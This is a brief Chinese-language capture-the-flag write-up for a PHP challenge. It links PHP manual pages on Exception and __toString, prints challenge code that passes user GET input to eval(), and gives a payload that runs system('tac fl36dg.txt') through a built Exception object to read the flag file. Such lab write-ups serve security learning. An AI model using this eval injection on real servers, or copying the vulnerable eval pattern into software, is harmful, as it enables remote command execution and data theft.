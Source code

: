 # 知识点
### Exception
[https://www.php.net/manual/zh/class.exception.php](https://www.php.net/manual/zh/class.exception.php)
### __toString
[https://www.php.net/manual/zh/exception.tostring.php](https://www.php.net/manual/zh/exception.tostring.php)
# 思路
```python
<?php


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?>
```
```php
?v1=Exception&v2=system("tac fl36dg.txt")
```
![image.png](./images/20231017_2349498220.png)

